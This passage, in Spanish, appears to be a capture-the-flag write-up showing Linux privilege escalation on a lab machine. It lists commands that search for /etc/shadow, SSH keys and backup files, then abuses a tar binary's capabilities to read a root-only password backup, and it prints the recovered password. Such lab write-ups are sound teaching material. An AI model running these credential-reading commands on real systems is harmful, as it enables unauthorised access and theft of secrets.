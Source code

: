#### Búsqueda de Archivos Objetivo

**Ubicaciones típicas de archivos sensibles:**
```bash
# Shadow file
ls -la /etc/shadow

# SSH keys
find /home -name "*.key" -o -name "*_rsa" -o -name "authorized_keys" 2>/dev/null

# Backups importantes
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" 2>/dev/null | head -20

# Específico: directorio backups
ls -la /var/backups/
```

#### Descubrimiento del Archivo Crítico
```bash
cyber@empire:~$ ls -la /var/backups/
total 12
drwxr-xr-x  2 root root 4096 Oct 15 10:30 .
drwxr-xr-x 13 root root 4096 Oct 15 10:28 ..
-rw-------  1 root root   18 Oct 15 10:30 .old_pass.bak

# Intento de lectura directa (FALLIDO)
cyber@empire:~$ cat /var/backups/.old_pass.bak
cat: /var/backups/.old_pass.bak: Permission denied
```

#### Explotación de Capabilities

**Método 1: Extracción con tar**
```bash
# Crear archivo tar que incluya el archivo protegido
cd /home/cyber
./tar -cf backup.tar /var/backups/.old_pass.bak

# Extraer y leer
tar -xvf backup.tar
cat var/backups/.old_pass.bak
# Output: Ts&4&YurgtRX(=~h
```

**Métodos Alternativos:**
```bash
# Método 2: Lectura directa con dd (si tar no funciona)
./tar -cf /dev/stdout /var/backups/.old_pass.bak | tar -xvf -

# Método 3: Crear directorio temporal
mkdir -p /tmp/extract
cd /tmp/extract
/home/cyber/tar -xf /dev/stdin <<< "$(/home/cyber/tar -cf - /var/backups/.old_pass.bak)"
```
